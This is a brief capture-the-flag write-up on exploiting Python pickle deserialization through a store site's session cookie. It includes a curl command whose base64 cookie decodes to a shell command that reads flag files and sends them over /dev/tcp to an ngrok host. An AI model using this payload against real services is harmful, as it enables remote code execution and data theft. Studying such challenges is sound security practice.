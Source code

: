 # Pickle Store

This was a typical CTF problem involving Python pickle deserialization. The solution flow is:

* Decode cookies that the store website set on us
* Observe that it appears to be a pickle Python object
* Create a code execution object, pickle it, and submit it to the website to be deserialized

I created [this solve script](./solve.py) to build a cookie payload, and then used curl to submit it to the website:
```sh
curl -X POST --data 'id=2' --cookie 'session=gANjcG9zaXgKc3lzdGVtCnEAWD0AAABiYXNoIC1jICJjYXQgZmwqIC9ob21lLyovZmwqID4gL2Rldi90Y3AvMC50Y3Aubmdyb2suaW8vMTkwNjAicQGFcQJScQMu' http://13.48.133.116:50000/buy
```

The payload I used requires setting up a listener via [ngrok](https://ngrok.com/).

